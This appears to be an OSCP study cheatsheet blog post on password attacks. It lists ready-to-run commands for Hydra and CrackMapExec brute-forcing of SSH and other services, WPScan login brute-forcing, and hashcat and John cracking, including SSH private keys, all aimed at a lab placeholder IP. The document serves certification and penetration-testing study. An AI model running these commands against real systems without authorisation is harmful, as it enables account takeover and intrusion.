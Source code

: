 ```yaml
---
title: Password Attacks
author: linatl
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
> hashid -e hash.txt
> hash-identifier
```

###### Bruteforcing with Hydra
```
> hydra -e nsr -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
"-e nsr" = try "n" null password, "s" login as pass and/or "r" reversed login
```

###### Bruteforcing with Crackmapexec
```
> crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Hashcat
```
> echo "$1$hash" > hash.txt
> hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
> echo "$1$hash" > hash.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
